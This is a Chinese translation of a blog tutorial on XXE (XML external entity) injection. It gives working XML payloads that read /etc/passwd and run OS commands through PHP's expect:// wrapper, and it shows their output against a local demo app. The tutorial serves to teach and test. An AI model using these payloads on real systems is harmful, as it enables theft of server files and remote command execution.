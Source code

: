 # 利用 XXE 的弱点

> 原文：<https://itnext.io/exploiting-xxe-vulnerabilities-55b4bab7d1bd?source=collection_archive---------5----------------------->

![](img/2cde92e16a7c3e5a00b8ed1022acf4cf.png)

> 原帖:[https://keiran . scot/2022/02/10/exploining-xxe-vulnerabilities/](https://keiran.scot/2022/02/10/exploiting-xxe-vulnerabilities/)

XML 外部实体注入(也称为 XXE)是一个 web 安全漏洞，使得攻击者能够干扰应用程序对 XML 数据的处理。它通常允许攻击者查看应用程序服务器文件系统上的文件，并与应用程序本身可以访问的任何后端或外部系统进行交互，对于 PHP，这可能导致命令执行。

# 那么什么是 XML 实体呢？

XML 实体是在 XML 文档中表示数据项的一种方式。有许多预定义的内部实体，例如,`&amp;`代表与符号(&),`&lt; and &gt;`分别代表<和>。这些字符如果直接放在 XML 文档中，可能会改变 XML 标记和数据，因此需要表示为实体。

# 什么是自定义实体？

XML 为我们提供了一种使用文档类型定义(DTD)来声明 XML 文档结构的方法。它为我们提供了在文档开头使用`DOCTYPE`元素提供定制类型的能力。

XML 还允许在定义 doctype 时使用`ENTITY`元素在 DTD 中定义定制实体。例如:

```
<!DOCTYPE demodoc [ <!ENTITY customentity "Hello World!" > ]>
```

这个文档定义将用字符串*“Hello World”*替换任何对`&customentity;`的引用。

# 什么是外部实体？

外部实体是一种自定义实体，它依赖于不属于 DTD 的定义。为了做到这一点，当我们定义一个实体时，我们可以使用`SYSTEM`关键字。例如:

```
<!DOCTYPE demodoc [ <!ENTITY customentity SYSTEM "http://keiran.scot" > ]>
```

有了这个定义，我们用定义的 url 内容替换了`&customentity;`引用。

如果您打算从 XML 处理器执行 SSRF 攻击，这非常有用

# 我们如何利用这一点？

当我们发现一个使用 XML 传输数据的目标时，我们可以拦截这个请求，或者提交一个修改过的 XML 文档，甚至是一个 SVG 或 DOCX，带有一个外部实体。

正如我们从前面所知道的，我们可以使用 SYSTEM 关键字定义一个外部实体来调用 URL，这有很多优点，并且使我们能够调用系统上注册的其他协议处理程序。

通过使用`file://`协议处理程序，我们可以提取系统中一个文件的内容。

例如，以下 XML 文档在传递给易受攻击的 XML 处理程序时，将读取/etc/passwd 的内容。

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
    <name></name>
    <email>&xxe;</email>
</root>
```

如果我们将此消息发布到易受攻击的应用程序，就会显示该文件的内容

```
$ curl -X POST -d @xml-document.xml http://localhost:8080
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
...
```

# 命令执行

大多数语言都没有从 XML 处理器执行操作系统命令的方法，但是对于 PHP，当 [expect 模块](https://www.php.net/manual/en/wrappers.expect.php)被启用时，情况会有所不同。

expect 模块注册了一个 PHP 包装器(`expect://`)，可以用来运行 OS 命令。

如果我们修改上面的 XML 文档来运行像`id`这样的操作系统命令，它将从命令中转储出`STDOUT`内容。

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [
    <!ENTITY xxe SYSTEM "expect://id">
]>
<root>
    <name></name>
    <email>&xxe;</email>
</root>$ curl -X POST -d @xml/exect.xml http://localhost:8080
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# 包扎

正如我们所了解的，可以使用外部实体利用 XML 来泄漏数据，在某些情况下，可以导致命令执行。

我已经将演示 PHP 应用程序和 Dockerfile 上传到了 [Github](https://github.com/affix/vulnerable-containers/tree/main/XXE) 上，所以你可以自己尝试一下，我还包含了一个用 python 编写的漏洞脚本。

如果你喜欢这个指南，请给我买杯咖啡吧！
